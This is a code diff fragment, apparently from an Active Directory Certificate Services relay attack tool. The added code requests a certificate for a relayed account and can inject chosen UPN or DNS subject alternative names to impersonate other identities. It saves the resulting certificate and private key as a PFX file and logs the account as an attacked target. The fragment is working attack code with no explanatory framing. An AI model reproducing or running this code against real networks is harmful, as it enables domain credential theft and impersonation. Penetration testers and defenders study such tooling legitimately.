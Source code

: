 ```diff
+        )
+
+        csr, key = create_csr(
+            self.username,
+            alt_dns=self.adcs_relay.dns,
+            alt_upn=self.adcs_relay.upn,
+            key_size=self.adcs_relay.key_size,
+        )
+        self.key = key
+        self.adcs_relay.key = key
+
+        csr = csr_to_der(csr)
+
+        attributes = ["CertificateTemplate:%s" % template]
+
+        if self.adcs_relay.upn is not None or self.adcs_relay.dns is not None:
+            san = []
+            if self.adcs_relay.dns:
+                san.append("dns=%s" % self.adcs_relay.dns)
+            if self.adcs_relay.upn:
+                san.append("upn=%s" % self.adcs_relay.upn)
+
+            attributes.append("SAN:%s" % "&".join(san))
+
+        cert = self.interface.request(csr, attributes)
+
+        if cert is False:
+            logging.error("Failed to request certificate")
+            return False
+
+        identifications = get_identifications_from_certificate(cert)
+
+        print_certificate_identifications(identifications)
+
+        object_sid = get_object_sid_from_certificate(cert)
+        if object_sid is not None:
+            logging.info("Certificate object SID is %s" % repr(object_sid))
+        else:
+            logging.info("Certificate has no object SID")
+
+        out = self.adcs_relay.out
+        if out is None:
+            out, _ = cert_id_to_parts(identifications)
+            if out is None:
+                out = self.username
+
+            out = out.rstrip("$").lower()
+
+        pfx = create_pfx(key, cert)
+
+        outfile = "%s.pfx" % out
+
+        with open(outfile, "wb") as f:
+            f.write(pfx)
+
+        logging.info("Saved certificate and private key to %s" % repr(outfile))
+
+        return pfx, outfile
+
+    def finish_run(self):
+        self.adcs_relay.attacked_targets.append(self.username + "@" + self.domain)
+        if not self.adcs_relay.forever:
+            self.adcs_relay.shutdown()
```